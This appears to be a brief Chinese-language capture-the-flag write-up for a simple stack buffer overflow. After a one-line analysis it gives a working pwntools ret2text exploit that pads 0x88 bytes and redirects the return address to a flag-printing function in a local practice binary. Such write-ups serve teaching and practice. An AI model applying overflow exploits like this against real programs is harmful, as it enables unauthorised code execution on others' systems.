

## 0x01 分析

  

简单的栈溢出

  

有一个打印flag的函数，所以直接ret2text即可

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
elf = ELF("./pwn")
good_game = elf.sym['good_game']
payload = b'a'*0x88 + p64(good_game)
o.sendline(payload)
o.interactive()

```

  

自行调试
